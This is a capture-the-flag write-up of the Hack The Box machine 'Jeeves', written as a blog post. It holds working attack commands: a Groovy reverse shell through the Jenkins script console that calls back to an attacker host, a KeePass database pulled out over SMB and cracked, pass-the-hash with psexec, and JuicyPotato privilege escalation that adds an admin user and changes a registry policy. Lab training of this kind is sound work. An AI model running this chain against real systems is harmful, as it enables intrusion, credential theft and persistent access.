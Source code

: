 ```yaml
---
layout: post
title: HTB Machine - Jeeves
subtitle: Writeup
cover-img: https://www.hackthebox.com/storage/avatars/709059a710d3d6ff1ba32bf0729ecbb8.png
thumbnail-img: https://www.hackthebox.com/storage/avatars/709059a710d3d6ff1ba32bf0729ecbb8.png
share-img: https://www.hackthebox.com/storage/avatars/709059a710d3d6ff1ba32bf0729ecbb8.png
tags: [ HTB, Hack the Box,Web Forensics,Vulnerability Assessment,Security Tools,Authentication,Weak Credentials,Remote Code Execution,Powershell]
---
```

scans:
```zsh
TTL :windows.

sudo nmap -sS 10.10.10.63 --open --min-rate 5000 -n -Pn -oG ./nmap/allports

sudo nmap -sCV 10.10.10.63 -p80,135,445,50000 -oN ./nmap/targeted
```

Website is static. On port 50000 there is no other than a redirect to another website. We will try fuzing the website then. 

```zsh
ffuf -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.63:50000/FUZZ -ic
askjeeves              
```
We get access to a jenkins manager website. By going to manage jenkins-script console we could execute groovy scripts. Simply searching groovy reverse shell script we come accross a reverse shell generator. 

https://www.revshells.com/

Enter your ip, port and copy the command with rlwrap+nc (that way we have interactive console capabilities). Execute it in your attackers terminal.
```zsh
rlwrap -cAr nc -lvnp 8044
```

under the reverse tab select groovy (bottom of the list), shell:cmd and encoding:none. Input the script inside the script console in the manage jenkins website and run it to get a console inside the target machine. 
```zsh
String host="10.10.14.5";int port=8044;String cmd="cmd";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Once in we can go for the user flag
```zsh
more c:\Users\kohsuke\Desktop\user.txt
```

Doing some recon in the documents folder of the user we notice a .kdbx file. Kdbx is the data files created by KeePass Password Safe are and they usually refer to the KeePass Password Database. These files contain passwords in an encrypted database wherein they can only be viewed if the user set a master password and accessed them through that master password. Interesting indeed so lets download it to our attack machine by setting up a smbfolder to upload the file to.  
```
sudo impacket-smbserver smbFolder $(pwd) -smb2support

copy CEH.kdbx \\10.10.14.5\smbFolder\CEH.kdbx
```
To open the file we will need a tool for it. 
```
sudo apt install keepassxc
keepassxc CEH.kdbx
```
It is asking for a password that we dont have, trying the usual passwords does not bring any results. But we can try to crack the pass with john. First we will use keepass2john to generate a hash. Then we use john to crack the pass from the hash.
```zsh
keepass2john CEH.kdbx > hash

john -wordlist=/usr/share/wordlists/rockyou.txt hash
moonshine1
```
Now we have the password we can examine the password database. There are several interesting entries, but if we check 'backup stuff' password we see an interesting format. It looks more like a hash. Lets validate if thats the hash for the admin password with crackmapexec. 
```zsh
cme smb 10.10.10.63 -u "Administrator" -H "aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00"
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```
Then we will gain root passing the hash with psexec.
```powershell
psexec.py WORKGROUP/Administrator@10.10.10.63 -hashes ':e0fb1fb85756c24235ff238cbe81fe00'

C:\Windows\system32> whoami
nt authority\system
```
If we read the file present in the admin desktop folder the message says the flag is somewhere else. 
```powershell
c:\Users\Administrator\Desktop> more hm.txt
The flag is elsewhere.  Look deeper.
```
Going around the file system brings no fruits, so we can look into alternate data strings. An Alternate Data Stream is a little-known feature of the NTFS file system. It has the ability of forking data into an existing file without changing its file size or functionality. Think of ADS as a 'file inside another file'. With that knowledge and looking into the Desktop folder we find out our flag is present.
```powershell
dir /s /r

more < hm.txt:root.txt
```
----
Another way to elevete our privileges is using juicy potato. For that we verify that the regular user has the SeImpersonatePrivilege capabilities.
```powershell
whoami /priv
SeImpersonatePrivilege
```
Then lets download the juicy potato .exe file from the github repository under "fresh potatoes"

https://github.com/ohpe/juicy-potato

and bring the file to the victim machine under a folder we have write privileges. We can use SMB again to get the file from our attack machine.
```powershell
copy \\10.10.14.5\smbFolder\JuicyPotato.exe JP.exe
```
we are going to add a new user, confirm the user has been generated and then add the user to the administrators group. 
```powershell
jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user ricky h4ck3r123$! /add" -l 1337

net user
ricky

jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators ricky /add" -l 1337

net user ricky
 *Administrators 
```
If we validate the user with cme we see the user is valid but the pwned is missing from the output.
```zsh
cme smb 10.10.10.63 -u "ricky" -p 'h4ck3r123$!'
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\ricky:h4ck3r123$!
```
To solve that we need to retouch a parameter inside the windows target machine. The LocalAccountTokenFilterPolicy is a filter that prevents elevated privileges from being used over the network. This only applies to local administrative accounts, they do not affect domain accounts. Because of this restriction, we can't use of the account's privileges over the network. To disable the LocalAccountTokenFilterPolicy, we must tweak the following registry:

HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system

Specifically, the named value “LocalAccountTokenFilterPolicy”. We are interested in its value being 1. We can change its value using the following:
```powershell
jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337

cme smb 10.10.10.63 -u "ricky" -p 'h4ck3r123$!'
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\ricky:h4ck3r123$! (Pwn3d!)
```
From there we can gain access to the machine as a privileges user. 
```powershell
psexec.py WORKGROUP/ricky@10.10.10.63 cmd.exe

whoami
nt authority\system
```
